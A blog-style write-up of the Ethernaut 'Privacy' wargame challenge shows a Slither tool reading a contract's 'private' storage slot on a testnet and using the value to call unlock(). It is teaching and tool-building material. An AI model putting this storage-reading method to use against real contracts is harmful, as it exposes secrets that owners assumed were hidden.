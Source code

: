 ```yaml
---
layout: post
title: Slithering Through the Dark Forest
summary: Using a slither tool to unlock a contract with a hidden key. 
image: /images/slithering-through-the-dark-forest.jpg
---
```

Using a slither tool to unlock a contract with a hidden key. 

### A Coincidence of Wants

As I worked through the Ethernaut challenges, I started familiarizing myself with Trail of Bits' static analyzer [Slither](https://github.com/crytic/slither/). An [issue]((https://github.com/crytic/slither/issues/793)) on the Github repo gave me the idea to build a tool that reads storage from deployed smart contracts without needing to know the storage slot beforehand. This tool is a WIP.

`slither-read-storage` makes it quick and easy to find the storage slot and value of a variable. It works by using Slither's underlying compilation engine [Crytic-compile](https://github.com/crytic/crytic-compile) to determine the storage layout of a given contract. Then, it's trivial to retrieve the value by calling `web3.getStorageAt([address], [slot])` under the hood.

Incidentally, this turned solving the "Privacy" challenge on the [Ethernaut wargame](https://ethernaut.openzeppelin.com/) into an opportunity to contribute back to Slither and learn the inner workings of how Solidity handles storage.

### Solving the "Privacy" Ethernaut Challenge 

In order to win, we need to set `locked` to false by determing a value `_key` that will equal `data[2]`.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

First, we pass the file of the target contract, the target address, the target variable name, and our rinkeby node's url. This effectively retrieve's the storage slot of `data[0]`.

```
$ slither-read-storage Privacy.sol 0xFdaF948A66903a0050ed051508c7C26D137E76C4 data --rpc-url https://rinkeby.infura.io/v3/{project-id} 

> Privacy.data type bytes32[3] evaluated to:
> 0x5ff6b6a895e912882837aab9887e5db421a2e29fd3f1603e22a98a6a92ac47ce
> in Privacy at storage slot:
> 3
```

Since we want `data[2]` and each element of the byte array fills its own slot, we also pass `--key 2`, traversing two indices forward in the array.

```
$ slither-read-storage Privacy.sol 0xFdaF948A66903a0050ed051508c7C26D137E76C4 data --rpc-url https://rinkeby.infura.io/v3/{project-id} --key 2

> Privacy.data type bytes32[3] evaluated to:
> 0x1ffbae565d970e3c29ccf51e52978efa673f5e0d64fee8d734d069beb97dac7c
> in Privacy at storage slot:
> 5
```

We have retrieved `data[2]` from the byte array which we must coerce from a byte32 value into a byte16 value as `unlock`'s parameter requires. Since the hexidecimal value has a length of 66, and the "0x" prefix helps the parser recognize hexidecmial, we will select the first 34 characters. 

```
$ "0x1ffbae565d970e3c29ccf51e52978efa673f5e0d64fee8d734d069beb97dac7c".slice(0,34)
> "0x1ffbae565d970e3c29ccf51e52978efa"
```

Now we invoke the contract's `unlock` method.

```
$ contract.unlock("0x1ffbae565d970e3c29ccf51e52978efa")
```

To verify we are [succesful](https://rinkeby.etherscan.io/tx/0x9d3cc85510b21d86953aab8d2b3d3dc5ab7dc52d12a2eaf608cec3b7ea2168c7#statechange), we check the value of `locked`.

```
$ await contract.locked()
> false
```

We've successfully unlocked the contract by reading the private variable with the help of Slither. In the dark forest of Ethereum, `private` variables are not, in fact, secret.

### Further Resources

To read more about how Ethereum storage works, check out [this section](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html) of the Solidity language documentation. For an alternative approach, I recommend checking out this [write-up](https://medium.com/coinmonks/ethernaut-lvl-12-privacy-walkthrough-how-ethereum-optimizes-storage-to-save-space-and-be-less-c9b01ec6adb6) (note: the Privacy.sol contract has a different storage layout since it contains constants).
